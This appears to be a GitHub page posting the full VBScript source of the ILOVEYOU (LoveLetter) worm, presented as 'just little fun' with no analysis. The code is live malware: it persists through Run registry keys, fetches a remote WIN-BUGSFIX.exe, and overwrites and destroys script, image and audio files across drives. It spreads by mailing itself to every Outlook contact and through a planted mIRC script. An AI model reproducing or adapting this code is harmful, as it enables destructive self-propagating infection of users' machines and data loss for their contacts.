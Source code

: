 # I-Love-You
I Love You Virüs Source Code 
#Jenjente110 
#Just Little Fun
rem  barok -loveletter(vbe) <i hate go to school> 
 rem by: spyder  /  ispyder@mail.com  /  @GRAMMERSoft Group  /  Manila,Philippines 
 On Error Resume Next 
 dim fso,dirsystem,dirwin,dirtemp,eq,ctr,file,vbscopy,dow 
 eq="" 
 ctr=0 
 Set fso = CreateObject("Scripting.FileSystemObject") 
 set file = fso.OpenTextFile(WScript.ScriptFullname,1) 
 vbscopy=file.ReadAll 
 main() 
 sub main() 
 On Error Resume Next 
 dim wscr,rr 
 set wscr=CreateObject("WScript.Shell") 
 rr=wscr.RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout") 
 if (rr>=1) then 
 wscr.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout",0,"REG_DWORD" 
 end if 
 Set dirwin = fso.GetSpecialFolder(0) 
 Set dirsystem = fso.GetSpecialFolder(1) 
 Set dirtemp = fso.GetSpecialFolder(2) 
 Set c = fso.GetFile(WScript.ScriptFullName) 
 c.Copy(dirsystem&"\MSKernel32.vbs") 
 c.Copy(dirwin&"\Win32DLL.vbs") 
 c.Copy(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs") 
 regruns() 
 html() 
 spreadtoemail() 
 listadriv() 
 end sub 
 sub regruns() 
 On Error Resume Next 
 Dim num,downread 
 regcreate 
 "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKern el32",dirsystem&"\MSKernel32.vbs" 
 regcreate 
 "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunService s\Win32DLL",dirwin&"\Win32DLL.vbs" 
 downread="" 
 downread=regget("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Download Directory") 
 if (downread="") then 
 downread="c:\" 
 end if 
 if (fileexist(dirsystem&"\WinFAT32.exe")=1) then 
 Randomize 
 num = Int((4 * Rnd) + 1) 
 if num = 1 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start 
 Page","http://www.skyinet.net/~young1s/HJKhjnwerhjkxcvytwertnMTFwetrdsfm 
 hPnjw6587345gvsdf7679njbvYT/WIN-BUGSFIX.exe" 
 elseif num = 2 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start Page","http://www.skyinet.net/~angelcat/skladjflfdjghKJnwetryDGFikjUIyqw 
 erWe546786324hjk4jnHHGbvbmKLJKjhkqj4w/WIN-BUGSFIX.exe" 
 elseif num = 3 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start 
 Page","http://www.skyinet.net/~koichi/jf6TRjkcbGRpGqaq198vbFV5hfFEkbopBd 
 QZnmPOhfgER67b3Vbvg/WIN-BUGSFIX.exe" 
 elseif num = 4 then 
 regcreate "HKCU\Software\Microsoft\Internet Explorer\Main\Start 
 Page","http://www.skyinet.net/~chu/sdgfhjksdfjklNBmnfgkKLHjkqwtuHJBhAFSD 
 GjkhYUgqwerasdjhPhjasfdglkNBhbqwebmznxcbvnmadshfgqw237461234iuy7thjg/WIN -BUGSFIX.exe" 
 end if 
 end if 
 if (fileexist(downread&"\WIN-BUGSFIX.exe")=0) then regcreate 
 "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\WIN-BU GSFIX",downread&"\WIN-BUGSFIX.exe" 
 regcreate "HKEY_CURRENT_USER\Software\Microsoft\Internet 
 Explorer\Main\Start Page","about:blank" 
 end if 
 end sub 
 sub listadriv 
 On Error Resume Next 
 Dim d,dc,s 
 Set dc = fso.Drives 
 For Each d in dc 
 If d.DriveType = 2 or d.DriveType=3 Then 
 folderlist(d.path&"\") 
 end if 
 Next 
 listadriv = s 
 end sub 
 sub infectfiles(folderspec) 
 On Error Resume Next 
 dim f,f1,fc,ext,ap,mircfname,s,bname,mp3 
 set f = fso.GetFolder(folderspec) 
 set fc = f.Files 
 for each f1 in fc 
 ext=fso.GetExtensionName(f1.path) 
 ext=lcase(ext) 
 s=lcase(f1.name) 
 if (ext="vbs") or (ext="vbe") then 
 set ap=fso.OpenTextFile(f1.path,2,true) 
 ap.write vbscopy 
 ap.close 
 elseif(ext="js") or (ext="jse") or (ext="css") or (ext="wsh") or (ext="sct") or (ext="hta") then 
 set ap=fso.OpenTextFile(f1.path,2,true) 
 ap.write vbscopy 
 ap.close 
 bname=fso.GetBaseName(f1.path) 
 set cop=fso.GetFile(f1.path) 
 cop.copy(folderspec&"\"&bname&".vbs") fso.DeleteFile(f1.path) 
 elseif(ext="jpg") or (ext="jpeg") then 
 set ap=fso.OpenTextFile(f1.path,2,true) 
 ap.write vbscopy 
 ap.close 
 set cop=fso.GetFile(f1.path) 
 cop.copy(f1.path&".vbs") 
 fso.DeleteFile(f1.path) 
 elseif(ext="mp3") or (ext="mp2") then 
 set mp3=fso.CreateTextFile(f1.path&".vbs") 
 mp3.write vbscopy 
 mp3.close 
 set att=fso.GetFile(f1.path) 
 att.attributes=att.attributes+2 
 end if 
 if (eq<>folderspec) then 
 if (s="mirc32.exe") or (s="mlink32.exe") or (s="mirc.ini") or (s="script.ini") or (s="mirc.hlp") then 
 set scriptini=fso.CreateTextFile(folderspec&"\script.ini") scriptini.WriteLine "[script]" 
 scriptini.WriteLine ";mIRC Script" 
 scriptini.WriteLine ";  Please dont edit this script... mIRC will corrupt, if mIRC will" 
 scriptini.WriteLine "    corrupt... WINDOWS will affect and will not run correctly. thanks" 
 scriptini.WriteLine ";" 
 scriptini.WriteLine ";Khaled Mardam-Bey" 
 scriptini.WriteLine ";http://www.mirc.com" 
 scriptini.WriteLine ";" 
 scriptini.WriteLine "n0=on 1:JOIN:#:{" 
 scriptini.WriteLine "n1=  /if ( $nick == $me ) { halt }" scriptini.WriteLine "n2=  /.dcc send $nick 
 "&dirsystem&"\LOVE-LETTER-FOR-YOU.HTM" 
 scriptini.WriteLine "n3=}" 
 scriptini.close 
 eq=folderspec 
 end if 
 end if 
 next 
 end sub 
 sub folderlist(folderspec) 
 On Error Resume Next 
 dim f,f1,sf 
 set f = fso.GetFolder(folderspec) 
 set sf = f.SubFolders 
 for each f1 in sf 
 infectfiles(f1.path) 
 folderlist(f1.path) 
 next 
 end sub 
 sub regcreate(regkey,regvalue) 
 Set regedit = CreateObject("WScript.Shell") 
 regedit.RegWrite regkey,regvalue 
 end sub 
 function regget(value) 
 Set regedit = CreateObject("WScript.Shell") 
 regget=regedit.RegRead(value) 
 end function 
 function fileexist(filespec) 
 On Error Resume Next 
 dim msg 
 if (fso.FileExists(filespec)) Then 
 msg = 0 
 else 
 msg = 1 
 end if 
 fileexist = msg 
 end function 
 function folderexist(folderspec) 
 On Error Resume Next 
 dim msg 
 if (fso.GetFolderExists(folderspec)) then 
 msg = 0 
 else 
 msg = 1 
 end if 
 fileexist = msg 
 end function 
 sub spreadtoemail() 
 On Error Resume Next 
 dim x,a,ctrlists,ctrentries,malead,b,regedit,regv,regad 
 set regedit=CreateObject("WScript.Shell") 
 set out=WScript.CreateObject("Outlook.Application") 
 set mapi=out.GetNameSpace("MAPI") 
 for ctrlists=1 to mapi.AddressLists.Count 
 set a=mapi.AddressLists(ctrlists) 
 x=1 
 regv=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a) if (regv="") then 
 regv=1 
 end if 
 if (int(a.AddressEntries.Count)>int(regv)) then 
 for ctrentries=1 to a.AddressEntries.Count 
 malead=a.AddressEntries(x) 
 regad="" 
 regad=regedit.RegRead("HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead ) 
 if (regad="") then 
 set male=out.CreateItem(0) 
 male.Recipients.Add(malead) 
 male.Subject = "ILOVEYOU" 
 male.Body = vbcrlf&"kindly check the attached LOVELETTER coming from me." 
 male.Attachments.Add(dirsystem&"\LOVE-LETTER-FOR-YOU.TXT.vbs") male.Send 
 regedit.RegWrite 
 "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&malead,1,"REG_DWORD" end if 
 x=x+1 
 next 
 regedit.RegWrite 
 "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count else 
 regedit.RegWrite 
 "HKEY_CURRENT_USER\Software\Microsoft\WAB\"&a,a.AddressEntries.Count end if 
 next 
 Set out=Nothing 
 Set mapi=Nothing 
 end sub 
 sub html 
 On Error Resume Next 
 dim lines,n,dta1,dta2,dt1,dt2,dt3,dt4,l1,dt5,dt6 
 dta1="<HTML><HEAD><TITLE>LOVELETTER - HTML<?-?TITLE><**** NAME=@-@Generator@-@ CONTENT=@-@BAROK VBS - 
 LOVELETTER@-@>"&vbcrlf& _ "<**** NAME=@-@Author@-@ CONTENT=@-@spyder ?-? ispyder@mail.com ?-? 
 @GRAMMERSoft Group ?-? Manila, Philippines ?-? March 2000@-@>"&vbcrlf& _ "<**** NAME=@-@Description@-@ 
 CONTENT=@-@simple but i think this is good...@-@>"&vbcrlf& _ 
 "<?-?HEAD><BODY 
 ONMOUSEOUT=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU. 
 HTM#-#,#-#main#-#)@-@ "&vbcrlf& _ 
 "ONKEYDOWN=@-@window.name=#-#main#-#;window.open(#-#LOVE-LETTER-FOR-YOU. HTM#-#,#-#main#-#)@-@ 
 BGPROPERTIES=@-@fixed@-@ 
 BGCOLOR=@-@#FF9933@-@>"&vbcrlf& _ 
 "<CENTER><p>This HTML file need ActiveX Control<?-?p><p>To Enable to read this HTML file<BR>- Please press #-#YES#-# button to 
 Enable ActiveX<?-?p>"&vbcrlf& _ 
 "<?-?CENTER><MARQUEE LOOP=@-@infinite@-@ 
 BGCOLOR=@-@yellow@-@>----------z--------------------z----------<?-?MARQU EE> "&vbcrlf& _ 
 "<?-?BODY><?-?HTML>"&vbcrlf& _ 
 "<SCRIPT language=@-@JScript@-@>"&vbcrlf& _ "<!--?-??-?"&vbcrlf& _ 
 "if (window.screen){var wi=screen.availWidth;var 
 hi=screen.availHeight;window.moveTo(0,0);window.resizeTo(wi,hi);}"&vbcrl f& _ 
 "?-??-?-->"&vbcrlf& _ 
 "<?-?SCRIPT>"&vbcrlf& _ 
 "<SCRIPT LANGUAGE=@-@VBScript@-@>"&vbcrlf& _ "<!--"&vbcrlf& _ 
 "on error resume next"&vbcrlf& _ 
 "dim fso,dirsystem,wri,code,code2,code3,code4,aw,regdit"&vbcrlf& _ "aw=1"&vbcrlf& _ 
 "code=" 
 dta2="set fso=CreateObject(@-@Scripting.FileSystemObject@-@)"&vbcrlf& _ 
 "set dirsystem=fso.GetSpecialFolder(1)"&vbcrlf& _ "code2=replace(code,chr(91)&chr(45)&chr(91),chr(39))"&vbcrlf& _ 
 "code3=replace(code2,chr(93)&chr(45)&chr(93),chr(34))"&vbcrlf& _ "code4=replace(code3,chr(37)&chr(45)&chr(37),chr(92))"&vbcrlf& _ "set 
 wri=fso.CreateTextFile(dirsystem&@-@^-^MSKernel32.vbs@-@)"&vbcrlf& _ 
 "wri.write code4"&vbcrlf& _ 
 "wri.close"&vbcrlf& _ 
 "if (fso.FileExists(dirsystem&@-@^-^MSKernel32.vbs@-@)) then"&vbcrlf& _ "if (err.number=424) then"&vbcrlf& _ 
 "aw=0"&vbcrlf& _ 
 "end if"&vbcrlf& _ 
 "if (aw=1) then"&vbcrlf& _ 
 "********.write @-@ERROR: can#-#t initialize ActiveX@-@"&vbcrlf& _ "window.close"&vbcrlf& _ 
 "end if"&vbcrlf& _ 
 "end if"&vbcrlf& _ 
 "Set regedit = CreateObject(@-@WScript.Shell@-@)"&vbcrlf& _ 
 "regedit.RegWrite 
 @-@HKEY_LOCAL_MACHINE^-^Software^-^Microsoft^-^Windows^-^CurrentVersion^ 
 -^Run^-^MSKernel32@-@,dirsystem&@-@^-^MSKernel32.vbs@-@"&vbcrlf& _ "?-??-?-->"&vbcrlf& _ 
 "<?-?SCRIPT>" 
 dt1=replace(dta1,chr(35)&chr(45)&chr(35),"'") 
 dt1=replace(dt1,chr(64)&chr(45)&chr(64),"""") dt4=replace(dt1,chr(63)&chr(45)&chr(63),"/") 
 dt5=replace(dt4,chr(94)&chr(45)&chr(94),"\") 
 dt2=replace(dta2,chr(35)&chr(45)&chr(35),"'") 
 dt2=replace(dt2,chr(64)&chr(45)&chr(64),"""") dt3=replace(dt2,chr(63)&chr(45)&chr(63),"/") 
 dt6=replace(dt3,chr(94)&chr(45)&chr(94),"\") 
 set fso=CreateObject("Scripting.FileSystemObject") 
 set c=fso.OpenTextFile(WScript.ScriptFullName,1) 
 lines=Split(c.ReadAll,vbcrlf) 
 l1=ubound(lines) 
 for n=0 to ubound(lines) 
 lines(n)=replace(lines(n),"'",chr(91)+chr(45)+chr(91)) lines(n)=replace(lines(n),"""",chr(93)+chr(45)+chr(93)) 
 lines(n)=replace(lines(n),"\",chr(37)+chr(45)+chr(37)) if (l1=n) then 
 lines(n)=chr(34)+lines(n)+chr(34) 
 else 
 lines(n)=chr(34)+lines(n)+chr(34)&"&vbcrlf& _" end if 
 next 
 set b=fso.CreateTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM") b.close 
 set d=fso.OpenTextFile(dirsystem+"\LOVE-LETTER-FOR-YOU.HTM",2) d.write dt5 
 d.write join(lines,vbcrlf) 
 d.write vbcrlf 
 d.write dt6 
 d.close 
 end sub
